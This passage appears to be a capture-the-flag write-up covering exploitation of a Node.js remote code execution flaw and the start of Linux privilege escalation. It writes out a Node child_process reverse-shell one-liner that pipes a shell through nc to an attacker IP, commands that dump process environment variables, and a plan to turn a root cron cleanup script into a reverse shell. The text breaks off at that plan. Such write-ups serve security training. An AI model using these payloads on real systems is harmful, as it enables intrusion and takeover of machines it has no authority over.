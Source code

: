 As seen, we have RCE, we can use more commands to test:

```
process.cwd()                          // Current working directory
process.version                        // Node.js version
process.versions                       // Node + dependency versions
process.platform                       // OS platform ('linux', 'win32', etc.)
process.arch                           // Architecture ('x64', etc.)
process.env                            // Environment variables object
process.env['PATH']                   // Specific env var (e.g., PATH)
process.argv                           // Script arguments (if any)
process.uptime()                       // Time Node has been running
process.memoryUsage()                 // Memory info
```


Ok, the nice part about this is getting a reverse shell, so let's use:

```node
require('child_process').exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc IP 9001 >/tmp/f')
```

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250612162333.png)

Got our shell, let's begin privesc.



# PRIVILEGE ESCALATION
---


Ok, first step is to stabilize the shell:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
/usr/bin/script -qc /bin/bash /dev/null
CTRL + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export BASH=bash
```

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250612162428.png)
Now, let's take a look around, we can use linpeas:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250612162926.png)

As seen, there's a `cleanupscript.sh` script, since it is a cleanup script, it may be running as a process each couple minutes, let's use `pspy` to check:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250612163145.png)

As expected, there's a cronjob which runs the `cleanupscript.sh` as root, we can make a backup of the real script and modify it to send ourselves a reverse shell:
